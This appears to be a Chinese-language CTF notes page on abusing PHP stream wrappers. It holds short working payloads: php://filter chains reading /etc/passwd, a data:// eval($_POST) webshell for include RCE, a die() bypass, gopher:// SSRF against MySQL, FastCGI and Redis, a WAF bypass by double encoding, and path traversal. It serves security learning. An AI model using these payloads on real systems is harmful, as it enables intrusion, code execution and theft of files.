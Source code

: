 - [PHP官方文档](https://www.php.net/manual/en/wrappers.php)
- # `php://`
	- 各种编码的加解密
		- ```
		  base64编码，读取文件：
		  php://filter/read=convert.base64-encode/resource=
		  base64解码，读取文件：
		  php://filter/read=convert.base64-decode/resource=
		  base64解码，写入文件：
		  php://filter/write=convert.base64-decode/resource=
		  rot13编码
		  php://filter/write=string.rot13/resource=
		  zlib压缩
		  php://filter/zlib.inflate/resource=
		  ```
	- include无写入文件RCE
	  id:: 63bc02d6-ea56-4c2a-a494-0cb277531dba
		- 通过错误的编码转换，我们可以在文件内容的开头加入某些字符，这样我们就可以在文件的开头写入任意内容，并实现RCE
		- [参考](https://tttang.com/archive/1395/)
		- [Payload生成](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
		- 如果是`include_once`或者`require_once`那可能要配合 ((636665b7-cd42-4bd2-a685-f5e5cc4f5ec7))
	- 让php崩溃，从而让临时文件留在/tmp中
	  id:: 636665b7-767d-440c-8482-bb5e1dc0933c
		- `php://filter/string.strip_tags/resource=/etc/passwd`
	- 让`include_once`和`require_once`失效：
	  id:: 636665b7-cd42-4bd2-a685-f5e5cc4f5ec7
		- `php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/etc/passwd`
	- isset函数支持php伪协议
	- 绕开死亡`die`
		- 某些题目会在文件的开头加入类似`<?php die();`的内容，让我们无法正常写入webshell, 我们可以使用base64解码或者其他方式破坏掉前面的`die`
		- `php://filter/write=string.strip_tags|convert.base64-decode/resource=`
		- `convert.iconv.UCS-2LE.UCS-2BE`可以用于两两交换字符
	- php在解析伪协议时会先urldecode伪协议，所以可以使用二次编码绕过WAF
	  id:: 64673efa-c544-4ad7-9b9b-920b148d0b26
	- 基于filter报错进行读取文件：[[CTFWEB/PHP/基于PHP伪协议报错实现文件读取]]
	- 所有filter
		- ```php
		  zlib.*
		  convert.iconv.*
		  string.rot13
		  string.toupper
		  string.tolower
		  string.strip_tags
		  convert.base64-encode
		  convert.base64-decode
		  convert.quoted-printable-encode
		  convert.quoted-printable-decode
		  consumed
		  dechunk
		  ```
- # `data://`
	- 单纯表示某个内容，比如：`data://text/plain,123`读取出来的内容就是`123`
	- include无写入文件RCE
		- `data://text/plain,<?php eval($_POST['data']);?>`
	- base64
		- `data://text/plain;base64,`
	- php中也可以是`data:xxx`
		- [[CTFWEB/WP/Phuck2]]
- # `gopher://`
  id:: 62f27746-a352-41d4-b76d-63fc1f7c9e4f
	- `gopher://127.0.0.1:9000/_xxx`
		- 其中xxx是（URL编码后的）TCP发送的数据
	- 打SSRF
		- 打无密码MySQL
			- 只需要无密码用户的用户名即可执行任意SQL指令
		- 打FastCGI
			- 只需要一个存在主机上文件的路径就可以执行任意Shell指令
		- 可以打：`mysql, postgresql, fastcgi, redis, smtp, zabbix, pymemcache, rbmemcache, phpmemcache, dmpmemcache`
	- Payload可以用 ((62f14125-43fc-4da5-b83f-4d56aa1d2157)) 生成
- # `phar://`
	- 读取某个phar压缩包中的文件
	- `phar://a.phar/a.txt`
	- [[CTFWEB/PHP/Phar]]
- # `file://`
	- 表示文件，如`file:///etc/passwd`
	- php中`file://`除了直接写绝对路径，还可以写`file://<ip-or-domain>/<path>`
	  id:: 65b3d87d-c0d2-45b0-8736-6cdec74a9406
		- 也就是说支持`file://localhost/etc/passwd`的格式
- # `dict://`
	- 发送TCP数据，感觉不如`gopher://`
- # `glob://`
	- 读取目录，后面接上Linux的glob表达式
	- {{embed [[CTFWEB/PHP/目录读取]]}}
- 另：
	- java 的`file://`可以读取目录
	- 能用`file://`的地方有时可以不用`file://`, 直接读取
		- 比如`file:///etc/passwd`和`/etc/passwd`
- 其他
	- 有关file_get_contents()函数的一个trick，可以看作是SSRF的一个黑魔法，当PHP的 file_get_contents() 函数在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。
		- ```
		  httpsssss://../../../../../../etc/passwd
		  httpsssss://abc../../../../../../etc/passwd
		  ```
	- 在很多时候伪协议都是支持URL编码的，可以用来绕过关键字检测
